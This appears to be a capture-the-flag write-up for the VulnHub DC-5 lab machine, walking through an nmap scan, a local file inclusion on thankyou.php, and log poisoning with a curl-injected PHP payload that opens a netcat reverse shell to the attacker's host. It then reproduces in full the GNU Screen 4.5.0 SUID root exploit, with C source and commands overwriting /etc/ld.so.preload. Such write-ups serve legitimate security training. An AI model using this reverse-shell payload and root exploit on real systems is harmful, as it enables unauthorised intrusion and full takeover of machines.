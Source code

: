 <h1>DC-5 Write-up</h1>

<h2>NMAP</h2>

```
# Nmap 7.70 scan initiated Thu Sep 26 17:06:46 2019 as: nmap -sC -sV -oN nmap -v -p80,111,41608 192.168.56.50
Nmap scan report for 192.168.56.50
Host is up (0.00017s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
111/tcp   open  rpcbind 2-4 (RPC #100000)
41608/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:08:5D:1B (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 26 17:08:09 2019 -- 1 IP address (1 host up) scanned in 82.86 seconds

```
<h2>PORT 80</h2>

**Found LFI on web**

i wfuzz thankyou.php page with /thankyou.php?FUZZ=FUZZ

Found : http://192.168.56.50/thankyou.php?file=/etc/passwd

LFI TO SHELL:

* curl -A ```<?php echo exec('nc 192.168.56.1 1234 -e /bin/bash'); ?>``` http://192.168.56.50/
* nc -lvp 1234
* http://192.168.56.50/thankyou.php?file=/var/log/nginx/access.log  #REFRESH PAGE IF SHELL IS NOT COMING 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-5/images/wwwshell.png)

<h2>Privilege Esclation :</h2>

Exploit: https://www.exploit-db.com/exploits/41154

<h3>Screen 4.5.0 SUID Exploit :</h3>

**NOTE : YOU NEED TO COMPILE THIS EXPLOIT IN YOUR OWN MACHINE AND THEN SEND TO DC-5 BOX**

```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
```

```
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

```
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```

NOW TRANSFER BOTH FILE IN DC-5 IN /tmp then

```
cd /etc
umask 000
/bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
/bin/screen-4.5.0 -ls
/tmp/rootshell
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-5/images/rootflag%20and%20privesc.png)
